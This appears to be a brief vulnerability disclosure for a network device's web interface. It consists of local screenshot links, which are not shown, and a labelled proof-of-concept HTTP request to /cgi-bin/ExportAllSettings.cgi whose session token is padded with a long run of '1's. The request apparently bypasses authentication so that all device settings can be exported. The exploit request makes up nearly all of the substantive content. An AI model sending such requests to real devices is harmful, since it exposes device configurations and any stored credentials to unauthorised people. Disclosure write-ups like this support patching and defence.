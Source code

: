 

![1750315386446](C:\Users\asus\AppData\Roaming\Typora\typora-user-images\1750315386446.png)

![1750315337141](C:\Users\asus\AppData\Roaming\Typora\typora-user-images\1750315337141.png)



![1750255157705](C:\Users\asus\AppData\Roaming\Typora\typora-user-images\1750255157705.png)



![1750315026220](C:\Users\asus\AppData\Roaming\Typora\typora-user-images\1750315026220.png)

poc

```
GET /cgi-bin/ExportAllSettings.cgi HTTP/1.1
Host: 192.168.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ar;q=0.8,en;q=0.7
Cookie: i18next=zh_CN; lstatus=true; token=4E64526B9167BA6D8242E63A760C8BFD111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
Connection: close

```

